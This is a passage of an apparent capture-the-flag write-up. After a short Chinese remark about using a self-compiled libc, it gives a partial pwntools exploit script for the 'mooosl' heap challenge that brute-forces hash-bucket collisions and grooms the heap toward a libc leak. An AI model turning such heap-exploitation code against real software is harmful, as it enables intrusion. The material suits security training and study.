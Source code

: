 这里用了我自己编译的libc（调试方便，改成题目的libc需要改偏移，太麻烦了就不改了，笑

        from pwn import *

        context.log_level='debug'
        io = process('./mooosl')
        libc = ELF("./libc_true.so")

        def store(key,key_size,value,value_size):
            io.sendlineafter("option: ",str(1))
            io.sendlineafter("key size: ",str(key_size))
            io.sendafter("key content: ",key)
            io.sendlineafter("value size: ",str(value_size))
            io.sendafter("value content: ",value)

        def query(key,key_size):
            io.sendlineafter("option: ",str(2))
            io.sendlineafter("key size: ",str(key_size))
            io.sendafter("key content: ",key)
            
        def delete(key,key_size):
            io.sendlineafter("option: ",str(3))
            io.sendlineafter("key size: ",str(key_size))
            io.sendafter("key content: ",key)  


        # Brute force two-byte keys that end up in the same 'bucket'
        # of the hash table (buckets are 0 to 4095)
        START = (0x7e5)
        def brute_force_collision(desired_bucket, cur_num=START):
            options = []
            for x in range(256):
                for y in range(256):
                    cur_num = START
                    cur_num = ((x + cur_num * 0x13377331))
                    cur_num = ((y + cur_num * 0x13377331))
                    if (cur_num & 0xfff) == desired_bucket:
                        options.append((x, y))
            return options

        ## get same bucket
        collisions = brute_force_collision(255)
        print(collisions)
        usage=[]
        for each in collisions:
            usage.append(bytes(each))
        print(usage)

        #-------------- leak libc,mmap base and so on...-----------------------
        # 0x30 has 7 chunks
        store(b'a',1,b'a',1)
        store(b'b',1,b'b',1)
        #gdb.attach(io)
        for i in range(5):
            query((i+48).to_bytes(1,'little')*0x30,0x30)
        #gdb.attach(io)
        store(usage[0],len(usage[0]), b'A' * 0x30,0x30)
        #gdb.attach(io)
        store(usage[1],len(usage[1]),b'B'*0x30,0x30)
        #gdb.attach(io)
        delete(usage[0],len(usage[0]))